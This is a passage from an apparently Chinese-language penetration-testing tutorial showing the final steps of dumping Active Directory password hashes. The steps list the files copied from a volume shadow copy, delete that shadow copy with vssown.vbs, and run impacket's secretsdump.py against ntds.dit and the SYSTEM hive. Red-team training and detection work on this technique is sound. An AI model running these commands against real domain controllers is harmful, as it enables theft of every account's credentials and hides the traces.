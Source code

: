 Step 5:查看拷贝的文件

`dir c:\vssown\`

[![image.png](assets/1698894155-862d41e9e9369fca70a085b5340841a0.png)](https://storage.tttang.com/media/attachment/2022/09/30/8e94a71c-cdd4-4a19-b26a-7409855f7f8b.png)

Step 6：删除影卷拷贝

cscript vssown.vbs /delete {54ECD66A-570C-4489-956F-9B83E4C8B1B9}

[![image.png](assets/1698894155-29c3437681d8ee512b1e83e3e9d7209b.png)](https://storage.tttang.com/media/attachment/2022/09/30/5abe25ed-4b4c-4a75-b4c7-2f99a40d71c4.png)

Step 7：之后使用impacket导出Hash

./secretsdump.py -system /root/vssown/SYSTEM -ntds /root/vssown/ntds.dit LOCAL

[![image.png](assets/1698894155-c7c518db40f45c97e9f907a26102e0a1.png)](https://storage.tttang.com/media/attachment/2022/09/30/da8cfd94-491b-4633-b327-9392a2c535f8.png)
